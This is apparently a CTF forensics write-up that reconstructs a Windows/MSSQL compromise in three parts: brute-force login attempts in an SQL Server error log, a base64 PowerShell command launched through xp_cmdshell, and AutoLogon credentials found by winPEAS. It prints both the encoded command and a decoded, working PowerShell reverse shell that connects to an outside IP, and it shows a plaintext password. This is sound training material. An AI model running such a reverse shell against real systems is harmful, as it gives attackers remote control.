




## Part 1 - Infiltration

```console
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat mssql_service/MSSQL13.SQLEXPRESS/MSSQL/Log/ERRORLOG
��2025-03-18 12:28:55.12 Server      Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) 
        Mar 18 2018 09:11:49 
        Copyright (c) Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

2025-03-18 12:28:55.13 Server      UTC adjustment: -7:00

...

2025-03-18 12:29:14.04 Server      Software Usage Metrics is disabled.
2025-03-18 13:28:27.74 spid52      Using 'dbghelp.dll' version '4.0.5'
2025-03-18 19:51:14.50 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:14.50 Logon       Login failed for user 'root'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:15.13 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:15.13 Logon       Login failed for user 'test'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:15.74 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:15.74 Logon       Login failed for user 'admin'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:16.32 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:16.32 Logon       Login failed for user 'bruteforcing'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:17.00 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:17.00 Logon       Login failed for user 'this'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:17.85 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:17.85 Logon       Login failed for user 'is'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:18.43 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:18.43 Logon       Login failed for user 'the'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:19.05 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:19.05 Logon       Login failed for user 'first'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:19.69 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:19.69 Logon       Login failed for user 'part'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:20.31 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:20.31 Logon       Login failed for user 'w'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:20.86 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:20.86 Logon       Login failed for user 'c'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:21.68 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:21.68 Logon       Login failed for user 't'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:22.30 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:22.30 Logon       Login failed for user 'f'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:23.12 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:23.12 Logon       Login failed for user '{'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:23.96 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:23.96 Logon       Login failed for user 'd'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:24.56 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:24.56 Logon       Login failed for user '0'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:25.22 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:25.22 Logon       Login failed for user 'n'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:25.82 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:25.82 Logon       Login failed for user 't'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:26.49 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:26.49 Logon       Login failed for user '_'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:27.21 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:27.21 Logon       Login failed for user '3'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:27.93 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:27.93 Logon       Login failed for user 'n'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:28.60 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:28.60 Logon       Login failed for user '4'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:29.11 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:29.11 Logon       Login failed for user 'b'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:29.64 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:29.64 Logon       Login failed for user 'l'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:30.29 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:30.29 Logon       Login failed for user '3'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:55.62 spid54      Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
2025-03-18 19:51:55.63 spid54      Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
2025-03-18 19:51:58.29 spid54      Configuration option 'xp_cmdshell' changed from 1 to 0. Run the RECONFIGURE statement to install.
2025-03-18 19:51:58.33 spid54      Configuration option 'show advanced options' changed from 1 to 0. Run the RECONFIGURE statement to install.
2025-03-18 21:14:25.14 spid5s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2025-03-18 21:14:26.61 spid13s     Service Broker manager has shut down.
2025-03-18 21:14:26.65 spid5s      .NET Framework runtime has been stopped.
2025-03-18 21:14:27.51 spid5s      SQL Server shutdown has been initiated
2025-03-18 21:14:27.53 spid5s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
                                 
```

If we look at the invalid logons, we can see the attacker trying to brute force credentials. This spells out the first part of the flag, 

```
wctf{d0nt_3n4bl3_
```

---

## Part 2 - Shell Access

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat Public/Documents/winPEASOutput.txt                 
��ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD

...
```


Lets check the processes information in winpeas to see if any `XP_CMDSHELl` commands were run by the MSSQL user:

```
P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%c% Processes Information `%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%                                                                                                   

T%P%P%P%P%P%P%P%P%P%P%c% Interesting Processes -non Microsoft-
Z% Check if any interesting processes for memory dump or if you could overwrite some binary running https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#running-processes                                                         
    conhost(7856)[C:\Windows\system32\conhost.exe] -- POwn: MSSQL$SQLEXPRESS
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================

    cmd(1620)[C:\Windows\system32\cmd.exe] -- POwn: MSSQL$SQLEXPRESS
    Command Line: "C:\Windows\system32\cmd.exe" /c powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAOAA3AC4AMQAyADgAIgAsADEANAAzADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAZQBuAGMAbwBkAGUAZABfAGYAbABhAGcAcAB0ADIAIAA9ACAAIgBYADMAaABRAFgAMgBOAHQAWgBIAE4AbwBNAHoARQB4AFgAMwBjAHgAZABHAGgAZgBaAEQATgBtAFkAWABWAHMAZABGADkAagBjAGoATgBrAGMAMQA4AHcAYwBsADgAPQBzACIAOwAkAGYAbABhAGcAcAB0ADIAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAZQBuAGMAbwBkAGUAZABfAGYAbABhAGcAcAB0ADIAKQApADsAVwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAkAGYAbABhAGcAcAB0ADIAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==                                                                         
   =================================================================================================                                   

    winPEASx64(8144)[C:\Users\Public\Documents\winPEASx64.exe] -- POwn: MSSQL$SQLEXPRESS -- isDotNet
    Permissions: MSSQL$SQLEXPRESS [AllAccess], Service [WriteData/CreateFiles]
    Possible DLL Hijacking folder: C:\Users\Public\Documents (Service [WriteData/CreateFiles])
    Command Line: "C:\Users\Public\Documents\winPEASx64.exe" all
   ================================================================================                    
```


to decode https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)')



```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.187.128",1433);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$encoded_flagpt2 = "X3hQX2NtZHNoMzExX3cxdGhfZDNmYXVsdF9jcjNkc18wcl8=s";$flagpt2 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encoded_flagpt2));Write-Output $flagpt2;$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

We can see the `flagpart2` variable in there


Flag part 2:

```
_xP_cmdsh311_w1th_d3fault_cr3ds_0r_
```

---

## Part 3 - Getting a domain user

Read winpeas output again
```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat Public/Documents/winPEASOutput.txt                 
��ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD

...
```


```
T%P%P%P%P%P%P%P%P%P%P%c% Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  WOLVCTF
    DefaultUserName               :  WOLVCTF\Dan
    DefaultPassword               :  DansSuperCoolPassw0rd!!
    AltDefaultUserName            :  loot-in-hex:656e61626c335f347574306c6f67306e5f306b3f3f213f7d

```


Here we can see a domain user's credentials in the Autologon! And some loot in the `AltDefaultUserName`, Lets decode using cyberchef:

https://cyberchef.org/#recipe=From_Hex('Auto')&input=NjU2ZTYxNjI2YzMzNWYzNDc1NzQzMDZjNmY2NzMwNmU1ZjMwNmIzZjNmMjEzZjdk





Flag part 3:

```
enabl3_4ut0log0n_0k??!?}
```

---

## Final Flag:

```
wctf{d0nt_3n4bl3_xP_cmdsh311_w1th_d3fault_cr3ds_0r_enabl3_4ut0log0n_0k??!?}
```